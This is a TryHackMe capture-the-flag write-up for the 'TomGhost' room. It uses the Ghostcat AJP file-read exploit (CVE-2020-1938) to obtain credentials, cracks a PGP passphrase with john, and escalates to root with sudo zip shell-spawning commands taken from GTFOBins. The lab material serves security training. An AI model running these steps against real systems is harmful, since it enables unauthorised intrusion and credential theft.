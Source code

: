 ```yaml
---
layout: post
title: "THM Writeup - TomGhost"
subtitle: "Try Hack Me - TomGhost"
date: 2021-07-08 
background: '/img/bg-write.jpg'
---
```


# THM ![Try Hack Me](https://img.shields.io/badge/-TryHackMe-black?style=flat-square&logo=tryhackme)

## Room name: TomGhost
<https://tryhackme.com/room/tomghost>

### Description: 
Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.

### OS: ![Linux](https://img.shields.io/badge/Linux-black?style=flat-square&logo=linux)


### Enumeration
As I will be leveraging the built in THM Attack Box, I like to prepare by setting up the environment to ensure consistency. I plan to script some of this in the near future for ease of use.
Firstly, I will create the **scans** directory for NMAP.

Optional: for added convenience, one may choose to add the ip to the local hosts file.

```bash
echo "127.0.0.1 tom" > /etc/hosts
```

To begin enumeration, a simple nmap scan to enumerate open ports, services, and versions:

```bash
nmap -sC -sV -A -oN scans/nmap.initial $IP
```
The following ports are open on the machine:

port 	   |service
-----------|----------
22         |ssh
53		   |tcpwrapped
8009	   |Apache Jserv
8080       |Apache Tomcat

Visiting the website at port 8080 reveals the default Apache tomcat help page. After looking around for clues and attempting to log in, I decided to move on to the other ports and services. 

Looking at the service on 8009 and searching Exploit DB, we run across the following exploit:
- https://www.exploit-db.com/exploits/48143

The National Vulnerability database also includes the entry:
- nvd.nist.gov/vuln/detail/CVE-2020-1938

In addition, running searchsploit for ajp reveals the following (our target is the 48143.py file):

```bash
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
AjPortal2Php - 'PagePrefix' Remote File Inclu | php/webapps/3752.txt
Apache Tomcat - AJP 'Ghostcat' File Read/Inclu | multiple/webapps/48143.py
---------------------------------------------- ---------------------------------
```


## User Flag:
The python exploit is fairly straightforward and only requires the $IP of the target system.
Running the exploit (python 48143.py $IP), we are able to reveal the following:
```bash
<description>
    Welcome to GhostCat
        s***k:8****ks
</description>    
```
This confirms the credentials for one user. We can then attempt to SSH into the server with this login information.
<br>
After we successfully ssh into the server, listing directory contents presents us with the following PGP keychanin files. We also use this time to check the user privilege level.
```bash
s***k@ubuntu:~$ ls
credential.pgp  tryhackme.asc

s***k@ubuntu:~$ id
uid=1002(s***k) gid=1002(s***k) groups=1002(s***k)
```
As a standard, we search the machine for the user flag (user.txt) and redirect any failed output to dev/null. This reveals the location of the flag in the home directory of user: merlin. we then view the contents of the file to receive the user flag.
```bash
s***k@ubuntu:~$ find / -type f -name user.txt 2>/dev/null
/home/merlin/user.txt
s***k@ubuntu:~$ cat /home/merlin/user.txt
THM{G**********y}
```

## Root Flag
Now that we have a user shell and have located the user flag, we can go back to the PGP files we located earlier. For ease of manipulation, we can move these files to our attack machine.
```bash
root@ip-10-10-44-243:~# scp s***k@$IP:/home/s***k/* .
s***k@$IP password: 
credential.pgp                  100%  394   204.1KB/s   00:00    
tryhackme.asc                   100% 5144     4.1MB/s   00:00
```

Now, with the files available, we can leverage gpg2john to reveal the hash in the tryhackme.asc file. From there, we can then use john to crack the password hash.

Run:
> gpg2john tryhackme.asc > hash.txt

Then we run the following using the rockyou wordlist:
> john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```bash
Press 'q' or Ctrl-C to abort, almost any other key for status
a****u        (tryhackme)
1g 0:00:00:00 DONE (2021-07-08 20:38)
```

Now we have received the password from the file, we can decrypt the .GPG file. In order to do so we will need to import the gpg file, then decrpt as follows:
>gpg --import tryhackme.asc<br>
>gpg --decrypt credential.pgp

Upon running the commands and entering the password gained in the previous step, we are presented with the password for the user: **merlin**.

>merlin:a**********************j

Using these creds, we can now SSH into the server as merlin and move on.

After logging in as merlin, to further pivot, we review what, if any SUDO permissions are available for use. To do so we run *sudo -l* to enumerate. We see that merlin may run Zip as root. 

```bash
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```
This being the case, we search to identify a potential Zip privilige escalation. We check GTFObins (<https://gtfobins.github.io/gtfobins/zip/#sudo>) for a possible option and find that we can get a root shell with the following command.  
```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF

** Alternative **
sudo zip 1.zip a -T --unzip-command="sh -c /bin/bash"
```
We now have a shell running as root.
```bash
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
```
From here we run find to simply locate root.txt and examine the output to get our final flag.
```bash
root@ubuntu:~# find / -type f -name root.txt 2>/dev/null
/root/root.txt
root@ubuntu:~# cat /root/root.txt
THM{Z**********E}
```

## Takeaways

1. Basic enumeration with nmap
2. Exploit DB search and POC identification
3. John the ripper (gpg2john) on pgp files
4. GTFObins for Zip
